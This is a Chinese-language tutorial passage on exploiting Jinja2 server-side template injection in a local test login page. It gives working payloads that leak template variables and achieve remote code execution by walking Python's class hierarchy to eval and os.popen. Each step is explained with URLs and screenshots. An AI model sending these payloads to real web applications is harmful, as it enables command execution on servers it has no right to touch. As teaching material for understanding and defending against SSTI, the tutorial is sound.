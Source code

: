 但除了xss外还有其他可利用的点，譬如:

<img src='https://0xfay.github.io/public/image/165846.png'>

可以看到，我们使用`{{}}`后，传入的person.value()被当作了变量处理，直接返回了person中所有的值。

甚至可以用`{|% %|}`写for语句如下：

`http://127.0.0.1:8848/login?name={% for i in person %}<li>{{ i }}</li>{% endfor %}`

<img src='https://0xfay.github.io/public/image/170720.png'>

接下来就是重头戏，利用ssti进行rce(python沙盒绕过):

一个我实验成功的payload(下面有通用payload，这个更方便理解)：

`http://127.0.0.1:8848/login?name={{''.__class__.__mro__[1].__subclasses__()[146].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')}}`


一段一段来分析，先放上一点解释


- `__class__`  返回类型所属的对象
- `__mro__`    返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析。
- `__base__`   返回该对象所继承的基类   //*__base__和__mro__都是用来寻找基类的*


- `__subclasses__`   每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的的引用的列表
- `__init__`  类的初始化方法
- `__globals__`  对包含函数全局变量的字典的引用

>jinja2中只能用python自带的方法，不然会报错

首先是`http://127.0.0.1:8848/login?name={{''.__class__}}`

<img src='https://0xfay.github.io/public/image/094313.png'>

返回的`<class 'str'>`表示的是字符串`''`所属的类(python一切皆对象)

然后是通过str这个类去找object类,用`__bro__`或者`__base__`

- `__mro__`

`http://127.0.0.1:8848/login?name={{%27%27.__class__.__mro__}}`

<img src='https://0xfay.github.io/public/image/095552.png'>

`__mro__`返回的是列表，通过选择列表的值以选择object类

- `__base__`

`http://127.0.0.1:8848/login?name={{%27%27.__class__.__base__}}`

<img src='https://0xfay.github.io/public/image/100013.png'>

`http://127.0.0.1:8848/login?name={{%27%27.__class__.__mro__[1].__subclasses__()}}`

然后通过`__subclasses__`列出object下的子类，去寻找我们需要的类，即`catch_warnings`这个函数，因为该模块下有eval函数可供我们执行rce。

<img src='https://0xfay.github.io/public/image/100713.png'>
